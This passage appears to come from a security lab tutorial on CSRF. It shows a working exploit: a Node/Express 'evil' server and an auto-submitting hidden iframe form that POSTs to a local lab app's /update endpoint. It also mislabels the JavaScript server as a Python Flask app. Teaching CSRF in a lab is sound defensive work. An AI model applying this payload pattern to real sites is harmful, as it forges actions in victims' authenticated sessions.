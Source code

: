 PRINTSCREEN PLACEHOLDER

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; views/evil.ejs and run the command below to start our evil application.

```text
$ node evil_server.js
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.
